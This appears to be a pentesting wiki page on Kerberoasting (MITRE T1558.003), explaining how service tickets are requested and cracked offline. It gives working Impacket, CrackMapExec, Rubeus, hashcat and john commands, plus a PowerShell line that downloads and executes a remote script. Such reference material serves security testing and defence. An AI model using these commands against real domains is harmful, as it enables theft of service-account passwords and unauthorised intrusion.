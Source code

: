 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the SPN (Service Principal Name) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the ST to the requesting user.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Another alternative is the [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit.

```bash
python3 kerberoast spnroast kerberos+pass://"domain"\\"user":"password"@"target" -u "target_user" -r "realm"
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](../dacl/#genericall), [`GenericWrite`](../dacl/#genericwrite)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

{% hint style="info" %}
Controlling a member of the [Account Operators](../domain-settings/builtin-groups.md) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos" %}

{% embed url="https://adsecurity.org/?p=2011" %}
